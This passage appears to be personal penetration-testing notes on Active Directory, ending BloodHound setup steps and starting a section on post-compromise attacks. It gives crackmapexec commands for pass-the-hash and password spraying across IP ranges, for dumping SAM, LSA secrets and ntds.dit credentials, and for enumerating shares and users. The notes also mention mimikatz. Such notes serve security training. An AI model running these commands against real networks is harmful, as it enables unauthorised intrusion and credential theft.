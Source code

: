 7. Give same credentials as neo4j
neo4j : hello

8. NOw upload the zip file on bloodhound console

9. Now simply click analysis and click any type of query and we can see graph of AD

10. We can view varius types of permissions etc



*******************************************************************************************************************************************************************************************************************************************

# Post Compromise attacks (either have a shell or have credentials in the network)


Once we are in a network computer or have set of credentials from previous attacks we can proceed with post compromise

## Pass the hash/password

In this attack we simply pass the credentials in entire network range to see in how many devices we can logon(Password reuse). We can either use the hashes (last portion of ntlm hash) or plaintext password and pass em around using crackmapexec

- NOTE:NTLM hashes can be passed but NTLMv2 hashes cannot be passed

- NOTE: See all the available modules in crackmapexec ,they can be useful for post exploitation activities




- passing hashes/passwords for a domain user

> crackmapexec smb IP-RANGE/ADDRESSES -u username -H hash or password -d domainname

- passing hashes/passwords of local pc users

> crackmapexec smb IP-RANGE/ADDRESSES -u username -H hash or password --local-auth


-If we want to continue hash passing/password spraying , use the --continue-on-success flag


- we can also use multiple other flags like dump sam,lsa secrets,ntds.dit etc

> crackmapexec smb IP-RANGE/ADDRESSES -u username -H hash or password -d domainname --sam or --lsa or --ntds

We can also use modules in crackmap exec like mimikatz,powerview etc

https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec-cheatsheet/	

Enumerate all shares and its contents

> crackmapexec smb IP-RANGE/ADDRESSES -u userame -H hash or password -d domain.name -M spider_plus 


- we can enumerate other things like users,shares,sessions etc

> crackmapexec smb IP-RANGE/ADDRESSES -u username -H hash or password --shares or --users or --groups etc
